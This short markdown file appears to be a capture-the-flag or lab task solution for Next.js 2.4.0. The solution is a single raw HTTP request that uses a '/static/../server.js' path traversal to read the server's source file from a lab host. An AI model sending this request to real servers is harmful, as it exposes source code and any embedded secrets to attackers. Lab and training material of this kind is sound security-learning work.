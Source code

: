 # Task.1.md

## Desc

Next.js 2.4.0

## Solution

GET /static/../server.js HTTP/1.1
Host: yi.getshell.bar:10000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://yi.getshell.bar:10000/
Connection: close

